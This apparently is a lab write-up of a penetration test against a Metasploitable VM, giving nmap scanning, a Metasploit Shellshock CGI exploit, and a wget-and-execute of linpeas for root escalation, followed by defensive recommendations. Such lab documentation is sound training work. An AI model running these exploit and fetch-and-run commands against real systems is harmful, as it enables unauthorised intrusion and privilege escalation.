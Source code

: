 Penetration Testing Report: Metasploitable
1. Introduction

This document outlines the penetration testing process conducted on a Metasploitable virtual machine using Kali Linux. The primary goal was to identify and exploit vulnerabilities, ultimately obtaining root access.

Note: The IP addresses in this report are examples and do not reflect actual values.
2. Environment Setup

    Attacker Machine: Kali Linux (192.168.56.101 example IP)

    Target Machine: Metasploitable (192.168.56.102 example IP)

    Virtualization Software: GNOME Boxes

    Network Configuration: Bridge Network (VMs isolated from host but able to communicate)

3. Penetration Testing Process
3.1 Scanning & Enumeration

The first step was identifying open ports and running services using Nmap:
nmap -A -p- 192.168.56.102

Findings:

    Port 80 (HTTP) was open and running Apache 2.2.8, which is potentially vulnerable.

    Other services (SSH, FTP) were detected but not exploited in this test.

3.2 Vulnerability Analysis

Using Searchsploit, a known Remote Code Execution (RCE) vulnerability was identified in Apache 2.2.8:
searchsploit apache 2.2.8

This vulnerability was related to a misconfigured CGI script, allowing arbitrary command execution.
3.3 Exploitation

Exploitation was performed using Metasploit:
msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.168.56.102
exploit

This resulted in initial shell access to the target system.
3.4 Privilege Escalation

To escalate privileges from a limited user to root, Linpeas was executed:
wget linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh

Linpeas identified a SUID misconfiguration, which was leveraged to escalate privileges to root.
3.5 Post-Exploitation

    Extracted system credentials.

    Analyzed potential persistence mechanisms.

    Investigated security misconfigurations.

4. Key Takeaways

    Successfully gained root access by exploiting a vulnerable HTTP service.

    Demonstrated importance of securing common services like HTTP, SSH, and FTP.

    Strengthened skills in scanning, exploitation, and privilege escalation.

5. Security Recommendations

    Restrict access to unnecessary open ports.

    Regularly update and patch vulnerable software.

    Implement least privilege principles to limit escalation opportunities.

6. Conclusion

This penetration test successfully demonstrated a complete attack workflow, from reconnaissance to privilege escalation, emphasizing the need for proactive security measures.
References

    Nmap Documentation

    Metasploit Framework

    Linpeas Privilege Escalation Tool

    Exploit-DB



